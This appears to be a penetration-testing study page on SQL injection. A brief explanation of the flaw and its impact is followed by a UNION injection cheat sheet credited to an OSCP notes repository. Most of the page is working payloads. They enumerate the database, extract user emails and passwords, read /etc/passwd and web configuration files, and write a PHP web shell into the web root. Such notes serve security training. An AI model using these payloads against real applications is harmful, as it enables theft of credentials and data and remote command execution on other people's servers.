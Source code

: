 # SQL Injection

## SQL injection \(SQLi\) Information

SQL injection is a web security flaw that allows an attacker to interfere with a web application's database queries. It allows an attacker to see data that they wouldn't ordinarily be able to see. This could include data belonging to other users or any other information that the app has access to. In many circumstances, an attacker can change or remove this information.

### Impact

A successful SQL injection attack can result in unauthorized access to sensitive data, such as passwords, credit card details, or personal user information. An attacker can sometimes get a persistent backdoor into a company's systems, resulting in a compromise that goes unreported for a long time.

## SQL Union Injection Cheatsheet

This cheat sheet is from [here](https://github.com/areyou1or0/OSCP/blob/master/Web).

```text
# SQL Injection (manual)
photoalbum.php?id=1'

# find the number of columns
photoalbum.php?id=1 order by 8

# Find space to output db
?id=1 union select 1,2,3,4,5,6,7,8

# Get username of the sql-user
?id=1 union select 1,2,3,4,user(),6,7,8

# Get version
?id=1 union select 1,2,3,4,version(),6,7,8

# Get all tables
?id=1 union select 1,2,3,4,table_name,6,7,8,9 from information_schema.tables

# Get all columns from a specific table
?id=1 union select 1,2,3, column_name ,5,6,7,8 from information_schema.columns where table_name=‘users’
?id=1 union select 1,2,3, group_concat(column_name) ,5,6,7,8 from information_schema.columns() where table_name=‘users’
.. 1,2,3, group_concat(user_id, 0x3a, first_name, 0x3a, last_name, 0x3a, email, 0x3a, pass, 0x3a, user_level) ,5,6,7,8 from users

# view files
' union select 1,2,3, load_file(‘/etc/passwd’) ,5,6,7,8 -- -
' union select 1,2,3, load_file(‘/var/www/login.php’) ,5,6,7,8 -- -
' union select 1,2,3, load_file(‘/var/www/includes/config.inc.php’) ,5,6,7,8 -- -
' union select 1,2,3, load_file(‘/var/www/mysqli_connect.php’) ,5,6,7,8 -- -	

# upload files
' union select 1,2,3, 'this is a test message' ,5,6,7,8 into outfile '/var/www/test'-- -	
' union select 1,2,3, load_file('/var/www/test') ,5,6,7,8 -- -	
' union select null,null,null, "<?php system($_GET['cmd']) ?>" ,5,6,7,8 into outfile '/var/www/shell.php' -- -	
' union select null,null,null, load_file('/var/www/shell.php') ,5,6,7,8 -- -
```



